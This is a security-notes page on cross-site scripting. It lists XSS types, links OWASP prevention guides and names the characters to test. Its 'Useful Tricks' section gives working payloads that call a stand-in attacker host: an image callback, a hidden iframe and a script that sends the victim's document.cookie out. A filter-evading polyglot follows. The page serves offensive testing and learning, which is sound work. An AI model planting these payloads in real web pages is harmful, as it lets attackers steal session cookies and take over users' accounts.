 # XSS
Unsanitized data can allow attacker to inject client side scripts into webpages and execute malicious code.

XSS Type | Description | Potential Targets
--- | ---
Stored or Persistent(Can be blind) XSS | Payload is stored in database or cached by server | Everyone
Reflected XSS  | Payload included into a page contents | Request-er or link follower only
DOM-Based XSS  | Similar to the above but only occuur in a page's Document Object Model (DOM) | Browser parses the page's content
Self-XSS | Social Engineering a victim to the execute malicious JS | Socially Engineered
Mutated XSS | Injection that rewritten and modified by browser while parsing the markup. | Type related. 

## Prevention

A defense in depth approach should be applied as data should be sanitized in every location to where the data is passed.

[XSS Prevention Cheatsheet from OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
[DOM XSS Prevention Cheatsheet from OWASP ](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)


## Identifying XSS

If the application does not filtering these characters by removing or encoding them, it may be vulnerable to XSS.
```javascript
< > ' " { } ;
```


## Useful Tricks
Listener at the ready you can check if you get a connection back:
```html
<img src=http://$attacker-ip:port />
```
[Bankrobber Ippsec Video](https://www.youtube.com/watch?v=zYmA9ECuCio)

Content injection, server a file with an iframe of no size sending victims browser to a client-side attack or to script that gathers information. 
```html
<iframe> src=http://$attacker-ip:port/file height=”0” width=”0”></iframe>
```

Cookie Stealing
```html
<script>new Image().src="http://$attacker-ip:port/cookiejar.jpg?output="+document.cookie;</script>
```

Bypass payload size restrictions by [linking to an external Javascript file](https://www.youtube.com/watch?v=Uo3cL4nrGOk).


## XSS Polyglots
```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XXS')//>\x3e
```

## SKing7's XSS Filter Evasion Cheat Sheet

This cheat sheet lists a series of XSS attacks that can be used to bypass certain XSS defensive filters. Please note that input filtering is an incomplete defense for XSS which these tests can be used to illustrate. 
[Sking7](https://sking7.github.io/articles/218647712.html)


## References
[Owasp](https://owasp.org/www-community/attacks/xss/)
[XSS Prevention Cheatsheet from OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
[DOM XSS Prevention Cheatsheet from OWASP ](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
[XXS Wiki](https://en.wikipedia.org/wiki/Cross-site_scripting)
[sking7](https://sking7.github.io/articles/218647712.html)
[Bankrobber Ippsec Video](https://www.youtube.com/watch?v=zYmA9ECuCio)
